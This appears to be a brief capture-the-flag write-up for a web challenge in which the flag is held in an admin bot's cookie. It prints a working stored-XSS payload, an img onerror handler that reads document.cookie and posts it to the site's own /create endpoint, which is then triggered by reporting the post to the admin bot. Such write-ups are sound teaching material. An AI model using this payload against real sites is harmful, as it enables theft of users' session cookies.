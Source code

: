 <font size = '4'>
<p align = 'center'>
<b>
Break the Syntax CTS - Flag Report Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

I heard the admin has the flag.

Maybe he will give it to you if you ask nicely.

disclaimer: challenge does not have internet access

<br>

<b>Exploitation:</b><br>

There is an XSS vulnerability. A new post is created to exploit this.

```html
<img src=x onerror='fetch("/create", { method: "POST", body: new URLSearchParams({ title: "flag", body: "flag: " + document.cookie }) });'>
```
This post is then reported so that the admin bot visits it. This will trigger the URL, create a new post with the cookie.
